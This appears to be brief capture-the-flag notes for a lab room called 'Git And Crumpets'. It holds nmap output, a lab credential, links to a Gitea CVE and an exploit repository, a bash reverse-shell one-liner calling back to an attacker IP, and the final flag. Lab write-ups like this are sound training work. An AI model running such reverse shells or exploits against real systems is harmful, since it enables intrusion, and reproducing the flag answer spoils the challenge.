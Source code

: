 # Git And Crumpets

* IP = 10.10.230.151

## Enumeration and Scanning:

### Scan for Open Ports:

* Nmap to scan and discover open ports on the server:`nmap -sC -sV -vv $IP`
* Nmap Scan Results:
```bash
PORT     STATE  SERVICE    REASON       VERSION
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)
80/tcp   open   http       syn-ack      nginx
|_http-favicon: Unknown favicon MD5: 6A7F7C90FDB7FE26DB324F5BA6859594
| http-title: Hello, World
|_Requested resource was http://10.10.230.151/index.html
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp closed zeus-admin conn-refused

```
`curl -v http://IP/`

https://www.youtube.com/watch?v=dQw4w9WgXcQ

`10.10.230.151  git.git-and-crumpets.thm`

`scones:Password`

https://nvd.nist.gov/vuln/detail/CVE-2020-14144
https://github.com/PandatiX/CVE-2021-28378
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
bash -i >& /dev/tcp/10.4.50.128/7777 0>&1
```
`find / -xdev -user git 2> /dev/null`



**Ans-thm{fd7ab9ffd409064f257cd70cf3d6aa16**
